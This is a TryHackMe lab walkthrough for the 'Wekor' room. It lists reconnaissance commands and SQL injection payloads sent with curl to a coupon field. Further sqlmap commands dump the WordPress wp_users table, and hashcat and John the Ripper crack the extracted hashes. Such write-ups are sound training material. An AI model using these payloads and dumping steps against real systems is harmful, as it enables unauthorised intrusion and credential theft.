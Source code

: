 ## TryHackMe Walkthrough - Wekor
Added wekor.thm to /etc/hosts

URL=wekor.thm
### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server domains
```bash
DNSLISTS=/usr/share/amass/wordlists/subdomains-top1mil-5000.txt
wfuzz -c -w $DNSLISTS -t30 --hw 3 -H "Host:FUZZ.${URL}" "http://${URL}"
```
### How to enumerate web server path/folder/directory
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -e -u http://site.${URL} -xphp,txt -t30 -w ${WORDLISTS}
```
### How to enumerate with wpscan
```bash
wpscan.api=$(cat ~/Downloads/wpscan.api)
wpscan --url http://site.${URL}/wordpress/ -e ap,u --api-token ${wpscan.api}
```
### How to bruteforce sql with sqlmap
Test if vulnerable to sqli
```bash
' or 1 = 1 -- -
```
Pull 
```bash
' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -
```
```bash
curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' OR 1=1 -- -" \
  -d "apply_coupon=Apply Coupon" | grep -i code

curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -" \ -d "apply_coupon=Apply Coupon" | grep -i code
```
Capture payload with burpsuite
```bash
POST /it-next/it_cart.php HTTP/1.1

Host: wekor.thm

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 43

Origin: http://wekor.thm

Connection: keep-alive

Referer: http://wekor.thm/it-next/it_cart.php

Upgrade-Insecure-Requests: 1

Priority: u=0, i



coupon_code=12345&apply_coupon=Apply+Coupon
```
Use SQLMAP with payload
```bash
sqlmap -r coupon.req --level 5 --risk=3
```
Use SQLMAP to determine if the database can be pull
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
```
Use SQLMAP to explore databases and tables
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema
```
Use SQLMAP to pull specific database and table
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump
```
### How to crack the hash with hashcat
This is after you pull the users from the wordpress database and extract the hash password into a text file
```bash
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
## Resource
https://erichogue.ca/2021/06/Wekor

https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/Wekor%20Writeup
```
